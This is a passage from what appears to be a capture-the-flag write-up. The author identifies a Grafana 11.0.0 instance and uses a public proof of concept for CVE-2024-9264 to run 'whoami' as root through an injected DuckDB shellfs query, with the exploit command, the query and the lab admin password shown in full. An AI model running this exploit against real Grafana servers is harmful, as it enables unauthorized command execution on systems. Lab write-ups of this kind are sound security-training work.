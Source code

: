 ![](3.png)

We're in!
Doing a quick search on grafana I discovered that it's a panel where different data is monitored, so I thought of looking for some CVE just to have access to the machine...

## Exploit

First of all I need the version, so searching on the source I found that the version is 11.0.0.
Searching online I found this vulnerability: [CVE-2024-9264](https://github.com/nollium/CVE-2024-9264).
In short this vulnerability allows us to work with the grafana databases and above all it allows us to run commands on the machine

trying the poc we have this result:

```
$ python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'whoami' http://grafana.planning.htb/

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: whoami
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('whoami >/tmp/grafana_cmd_output 2>&1 
|'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
root
```
